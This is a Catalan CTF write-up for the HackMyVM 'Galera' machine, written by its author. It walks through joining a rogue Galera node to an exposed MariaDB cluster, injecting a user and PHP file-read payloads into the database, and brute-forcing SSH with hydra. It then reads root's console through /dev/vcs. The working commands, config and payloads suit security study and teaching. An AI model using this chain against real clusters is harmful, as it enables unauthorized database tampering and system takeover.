

## Introducció / Motivació

Després d'estar veient els directes a Twitch de [CursosDeDesarrollo](https://blog.cursosdedesarrollo.com/) barallant-se per instal·lar un clúster de `MariaDB` amb `MariaDB Galera Cluster`, em vaig adonar que si no es protegeix adequadament el port de Galera (port `4567`), es podria crear un node maliciós per modificar les bases de dades del clúster. Aquest CTF intenta reproduir el problema, entre altres coses. A més, com que no havia creat cap CTF per a [HackMyVM](https://hackmyvm.eu), aquesta era l'oportunitat.


## Taula de continguts

## Enumeració

```bash
ping -c 1 192.168.1.188
```



```bash
nmap -p- -sS -Pn -n 192.168.1.188
```



```bash
nmap -p22,80,4567 -sVC -Pn -n 192.168.1.188
```



```bash
whatweb 192.168.1.188
```



```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.1.188 -x .php,.txt,.htm,.html,.zip
```



## Enumeració manual



Codi font de la pàgina web.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
<div class="container">
 
  <h1>Login</h1>
    <form action="login.php" method="POST">
    <input type="hidden" name="token" value="66dbb62958e92d0e79635b0584dd1a77dcdfed68030f99b1cfd6c8e14c87079c">
    <label for="user">Username:</label>
    <input type="text" name="user" id="user" required maxlength="50">

    <label for="pass">Password:</label>
    <input type="password" name="pass" id="pass" required>

    <button type="submit">Sign In</button>
  </form>
</div>
</body>
</html>
```

## Intrusió

Al port `80`, el lloc web sembla estar ben protegit i no aconseguirem res amb força bruta.

Al port `22` tenim SSH i serà difícil aconseguir res també amb força bruta sense tenir cap usuari.

El port `4567`, si investiguem una mica, trobarem que és utilitzat per `Galera Cluster`, un sistema per fer clúster de BD en MariaDB o MySQL. A més, la màquina té el nom de `Galera`, provem aquesta via.

Més informació sobre **Galera** i com crear un node per connectar-nos al clúster:

- [What is MariaDB Galera Cluster?](https://mariadb.com/kb/en/what-is-mariadb-galera-cluster/)
- [MariaDB Galera Cluster](https://mariadb.com/kb/en/galera-cluster/)

### Node maliciós en el clúster

La idea és crear un node de Galera i intentar connectar-lo al node del clúster de Galera exposat al port `4567`. Si `Galera` està configurat sense seguretat (configuració per defecte), podrem connectar-nos amb el nostre node al clúster, visualitzar les BD i fins i tot és probable que les puguem modificar.

Utilitzarem Docker per crear un servei de MariaDB (atacant) i configurar Galera perquè es connecti al port `4567` del clúster del servidor (víctima).

Perquè un node de Galera es pugui connectar al clúster, és important que utilitzin la mateixa versió de la llibreria. En visualitzar l'informe de `nmap`, podem observar que el SO és un **Debian 12 “Bookworm”**. La versió de **MariaDB** que ve als repositoris per defecte en `Bookworm` és la **10.11.11**, que ja inclou la llibreria de Galera Cluster instal·lada. Creem el contenidor amb aquesta versió.

Utilitzem `docker` i `docker compose` per comoditat i per no afectar altres BD del nostre host, però es podria fer amb només un contenidor Docker passant els paràmetres a la línia de comandes en aixecar el contenidor, o amb la teva pròpia BD de l'host.

**docker-compose.yml**

```yaml
services:
  galera-atacante:
    image: mariadb:10.11.11
    container_name: galera-atacante
    network_mode: host  # Utilitzem xarxa de l'host per facilitar SST (¡important!)
    environment:
      - MARIADB_ALLOW_EMPTY_ROOT_PASSWORD=yes
      - MARIADB_ROOT_PASSWORD=
      - WSREP_SST_METHOD=rsync
    volumes:
      - ./conf.d:/etc/mysql/conf.d:ro
```

Creem també una carpeta `conf.d` al costat del fitxer `docker-compose.yml` i dins crearem el fitxer de configuració de Galera.

**conf.d/galera.cnf**

```bash
[galera]
# Activa el modo Galera, habilitando la replicación síncrona
wsrep_on=ON

# Ruta a la librería del proveedor Galera (SMM = Shared Memory Messaging)
wsrep_provider=/usr/lib/galera/libgalera_smm.so

# Dirección de la “bootstrap list”: nodos con los que formar el cluster
# gcomm:// sin direcciones haría que espere hasta que un nodo existente lo añada
wsrep_cluster_address=gcomm://192.168.1.188  # IP del nodo “víctima” o de los nodos existentes

# Dirección IP de este nodo, usada para comunicarse con el resto del cluster
wsrep_node_address=192.168.1.181   			# IP local del contenedor o host

# Nombre lógico de este nodo dentro del cluster (cualquiera que lo identifique)
wsrep_node_name=atacante

# Formato del binlog. ROW es obligatorio para Galera, ya que replica por fila
binlog_format=ROW

# Motor de almacenamiento por defecto. InnoDB es el único compatible con Galera
default_storage_engine=InnoDB

# Modo de bloqueo para auto-incrementos:
# 2 = “interleaved” – permite generar valores AUTO_INCREMENT concurrentes
#     sin bloqueos globales, mejor rendimiento en escrituras simultáneas
innodb_autoinc_lock_mode=2

# Método de State Snapshot Transfer (SST) para nuevos nodos:
# rsync = copia de datos vía rsync, sencillo pero bloquea al nodo fuente
wsrep_sst_method=rsync
```

En la configuració de Galera no posem cap nom per al clúster, per defecte Galera ja assigna un nom al clúster si l'usuari no el configura. Utilitzem `rsync` en `WSREP_SST_METHOD` perquè no requereix usuari ni contrasenya per afegir un node al clúster.

D'altra banda, fixeu-vos bé en les adreces IP de `galera.cnf` configurades en els paràmetres `wsrep_cluster_address` i `wsrep_node_address`.

Executem el docker compose ...

```bash
docker compose up -d
```



... i comprovem que el contenidor estigui aixecat ...

```bash
docker ps
```

i entrem dins de la BD del contenidor.

```bash
docker exec -it galera-atacante mysql
```

Ara dins de la nostra BD local comprovem que Galera s'hagi sincronitzat enviant el següent comandament SQL.

```sql
SHOW STATUS LIKE 'wsrep_local_state_comment';
```



Si en `Value` apareix `Synced`, vol dir que el nostre servidor s'ha afegit com a node al clúster de Galera, podem veure altres paràmetres de Galera amb el següent comandament SQL.

```sql
SHOW STATUS LIKE 'wsrep_%';
```

Alguns paràmetres interessants són: `wsrep_connected` que apareix com `ON`, o `wsrep_cluster_size` on podem veure que som dos nodes en el clúster (no estem sols 😁 !).

Mirem les BD que tenim i veiem que hi ha una BD que no teníem en el nostre Docker `galeradb`, entrem i veiem que hi ha una taula `users`.

```sql
show databases;
```

```sql
use galeradb; show tables;
```



Veiem que a la taula existeix un usuari admin, però no aconseguirem trencar el hash de la seva contrasenya, però podem afegir altres usuaris. Primer hem d'esbrinar quin tipus de hash és.

```sql
select * from users\G
```



```bash
hashid '$2y$10$BCAQ6VSNOL9TzfE5/dnVmuc9R5PotwClWAHwRdRAt7RM0d9miJRzq'
```


Observem que està amb bcrypt, creem un hash per a la contrasenya `password`.

```bash
python3 -c "import bcrypt; print(bcrypt.hashpw(b'password', bcrypt.gensalt(rounds=10)).decode())"
```



i l'utilitzem per crear un nou usuari en el nostre node del clúster en Docker.

```sql
INSERT INTO users (username, email, password) VALUES ('lenam','lenam@lenam.com','$2b$10$.9rNY2PmaVl3fan4XsRCEe3IWVAeFGHGFCWx1XFnNg/fBqZwZqXfa');
```



Anem al lloc web amb el formulari de login que apareixia al port 80 i intentem validar el nostre usuari creat. Aconseguim entrar a la pàgina `private.php`.



### LFI

A la pàgina `private.php` trobem un formulari amb diferents botons que ens permeten registrar missatges. Si intentem XSS o qualsevol tipus d'injecció no aconseguirem res (o això espero com a creador de la màquina). Només ho aconseguirem si manipulem el camp `email` de l'usuari, cosa que només podrem fer mitjançant la modificació de la base de dades des del nostre node del clúster de `Galera` atacant.

A l'adreça trobada mitjançant fuzzing de `/info.php`, trobem la clàssica sortida de `phpInfo();` on podem observar diferents coses importants com el paràmetre `disable_functions` i que està instal·lat el mòdul `SPL` al servidor.



Com es pot observar en `disable_functions`, tenim pràcticament totes les funcions per aconseguir RCE deshabilitades, però podrem utilitzar `include()`, `file_put_contents()` i totes les funcions de `SPL` útils per evadir les `disable_functions`.

Tornem a entrar al nostre node atacant de MariaDB amb Galera i modifiquem el correu electrònic del nostre usuari amb qualsevol d'aquests dos payloads:

```sql 
UPDATE users SET email="<?php $f=new SplFileObject('/etc/passwd');while(!$f->eof())echo$f->fgets(); ?>" WHERE username='lenam';
```

o

```sql 
UPDATE users SET email="<?php include('/etc/passwd'); ?>" WHERE username='lenam';
```

Tanquem la sessió del nostre usuari si la teníem iniciada i tornem a entrar, publiquem un missatge qualsevol i després fem clic al botó `View`, aconseguim obtenir el fitxer `/etc/passwd` del servidor.


Podem observar que a més de root i els típics usuaris del SO també existeix l'usuari `donjuandeaustria`.

### Força bruta a l'usuari `donjuandeaustria`

Utilitzem hydra per fer força bruta al servei `ssh` del port `22` amb l'usuari `donjuandeaustria`.

```bash
hydra -l donjuandeaustria -P /usr/share/wordlists/rockyou.txt -f 192.168.1.188 ssh
```

i en uns pocs minuts (en la meva màquina i sense posar més threads 2 o 3 minuts) obtenim el password de `donjuandeaustria` que és `amorcito`.

Entrem mitjançant SSH al servidor amb aquest usuari i contrasenya i obtenim la flag de user.txt.

```bash
ssh donjuandeaustria@192.168.1.188
```



## Escalada de privilegis

Si comprovem els grups als quals pertany l'usuari `id`, podrem observar que pertany al grup `tty`, i si observem si hi ha algun usuari que hagi iniciat una tty `w`, veurem que root ha iniciat una tty amb bash.



En pertànyer al grup `tty`, podem observar la sortida de la consola `tty` (el que estan veient) d'altres usuaris. Només hem de consultar el contingut del fitxer `/dev/vcs{n}` o `/dev/vcsa{n}`.

Si llegim el contingut del fitxer `/dev/vcs20`, el tty de l'usuari `root`, obtenim la contrasenya de root.

```bash
cat /dev/vcs20
```



Entrem com a usuari root amb la contrasenya obtinguda i llegim la flag de root.txt.



En aquest laboratori es pot observar la importància de protegir els ports o la xarxa de Galera Cluster o, com a mínim, utilitzar un altre mètode SST que permeti la validació per certificat o contrasenya.

**Més informació**

- https://galeracluster.com/library/documentation/security.html
- https://mariadb.com/kb/en/securing-communications-in-galera-cluster/#securing-galera-cluster-replication-traffic
- https://blog.cursosdedesarrollo.com/posts/post-009/


